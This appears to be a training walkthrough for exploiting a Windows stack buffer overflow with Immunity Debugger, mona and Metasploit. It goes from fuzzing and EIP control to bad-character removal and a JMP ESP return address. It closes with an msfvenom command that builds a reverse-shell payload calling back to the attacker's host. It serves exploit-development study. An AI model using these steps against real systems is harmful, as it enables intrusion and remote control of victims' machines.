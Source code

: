 # Mona Configuration
```
!mona config -set workingfolder c:\mona\%p
```

# Fuzzing
* Update IP and Port# and modify sent values as needed for `fuzzer.py`
* Run `python fuzzer.py`
* Make note of byte count at crash location

# Crash Replication & Controlling EIP
* Run the command `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l length-value` where length-value is 400 bytes longer than the string that crashed the server
* Copy the output of the above command and place it into the payload variable of the `exploit.py` script
* Run `python exploit.py`
* Run the following mona command in Immunity `!mona findmsp -distance length-of-created-pattern`
* Mona will display a log window with the output of the command. If not, click "Window" and then "Log data" (choose "CPU" to switch back to the standard view)
* Output should look like
```
EIP contains normal pattern : ... (offset XXXX)
```
* Update the `exploit.py` script and set the offset variable to this value (default is set to 0).
* Set the payload variable to an empty string again
* Set the retn variable to `BBBB`
* Run `exploit.py` again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242)

# Finding Bad Characters
* Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the `bytearray.bin` file that is generated (if the working folder was set per the Mona Configuration above, then the location should be C:\mona\oscp\bytearray.bin)
```
!mona bytearray -b "\x00"
```
* Now generate a string of bad chars that is identical to the bytearray (bytearray.py)
* Update `exploit.py` and set the payload variable to the string of bad chars the script generates
* Re-run `exploit.py`
* Make note of the address to which the ESP register points and use it in the following mona command
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
* A popup window should appear labelled **mona Memory comparison results**. If not, use "Window" to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file
* The first badchar in the list should be the null byte (\x00). Make note of any others
* Generate a new bytearray in mona specifying the new badchars along with \x00 `!mona bytearray -b "\x00 bad-chars"`
* Update the payload variable in `exploit.py` and remove the new badchars as well
* Re-run `exploit.py`
* Repeat the badchar comparison until the results status returns **Unmodified**. This indicates that no more badchars exist

# Finding a Jump Point
* With the binary in a running or crashed state, run the following mona command, making sure to update the `-cpb` option with all the badchars identified (including \x00)
```
!mona jmp -r esp -cpb "\x00"
```
* This command find all "JMP ESP" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log Data" window
* Choose an address and update `exploit.py` setting the retn variable to the address, written backwards (little endian)

# Generate Payload
* Copy the generated python code from the below command into `exploit.py`'s `payload` variable equal to the `buf` variable
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

# Prepend NOPs
* Since an encoder is likely used to generate the payload, it will need some space in memory for the payload to unpack itself. This can be done by setting the `padding` variable to a string of 16 or more "No Operation" (\x90) bytes:
```
padding = "\x90" * 16
```

# Exploit
With the correct prefix, offset, return address, padding, and payload set, a reverse shell should now be possible
